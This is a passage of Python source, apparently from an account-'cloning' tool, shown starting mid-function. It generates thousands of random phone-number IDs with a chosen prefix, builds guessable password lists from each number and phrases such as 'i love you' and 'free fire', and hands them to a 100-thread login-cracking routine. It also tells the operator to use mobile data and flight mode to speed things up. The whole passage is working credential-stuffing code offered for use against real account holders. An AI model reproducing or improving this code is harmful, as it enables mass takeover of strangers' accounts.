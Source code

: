             for Eman in HamiiID:
                pwx.append(Eman)
                pwx.append(love)
            manshera.submit(rcrack,uid,pwx,tl)
    print(f"\n{x} ------------------------------------------------------------------------------------------------------------------")

#RANDOM BD     
def snigdho_bd():
    user=[]
    twf =[]
    os.getuid
    os.geteuid
    os.system("clear")
    snigdho_Hasan(logo)
    snigdho_Hasan(f' [{xr}^{x}] Example>: {xr}9377,9370,9374,9379,9378{x}')
    snigdho_Hasan(" --------------------------------------------------------------------------------------")
    rk1 = '01'
    code = random.choice([rk1])                      # input(f' [{xr}â– {x}] Choose : ')
    os.system('clear')
    snigdho_Hasan(logo)
    limit = int(input(f'\033[0;97m[{xr}^{x}]\033[0;92m EXAMPLE : \033[0;93m1000, \x1b[38;5;208m2000, \033[0;92m5000 ] \n\033[0;95m------------------------------------------------------------------------------------------------------------------ \n\033[0;97m[{xr}^{x}] \033[0;92mPUT CLONING LIMIT:\033[0;93m '))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(9))
        user.append(nmp)
    os.system("clear")
    snigdho_Hasan(logo)
    passx = 0
    HamiiID = []
    snigdho_Hasan("")
    for bilal in range(passx):
        pww = input(f"[*] Enter Password {Sabir+Sabir} : ")
        HamiiID.append(pww)
    with ThreadPool(max_workers=100) as manshera:
        clear()
        tl = str(len(user))
        snigdho_Hasan('\033[1;97m====================================================')
        snigdho_Hasan(f'[{xr}^{x}]\x1b[38;5;208m YOUR TOTAL IDS: {xr}'+tl)
        snigdho_Hasan(f'{x}[{xr}^{x}]\033[0;92m PLEASE WAIT YOUR CLONING PROCESS HAS BEEN STARTED')
        snigdho_Hasan(f'\033[0;97m[{xr}^{x}]\033[0;93m USE YOUR MOBILE DATA ')
        snigdho_Hasan(f'\033[0;97m[{xr}^{x}] \x1b[38;5;208mUse Flight Mode For Speed Up')
        snigdho_Hasan(f'\033[0;97m[{xr}^{x}] \033[0;95mSuper Fast Speed Cloning')
        snigdho_Hasan('\033[1;97m====================================================')
        for love in user:
            pwx = [love[3:],code+love,love[1:],'Afghanstan','Afghanstan','i love you','free fire','freefire']
            uid = code+love
            for snigdho in HamiiID:
                pwx.append(snigdho)
                pwx.append(love)
            manshera.submit(rcrack,uid,pwx,tl)
    print(f"\n{x} --------------------------------------------------------------------------------------")
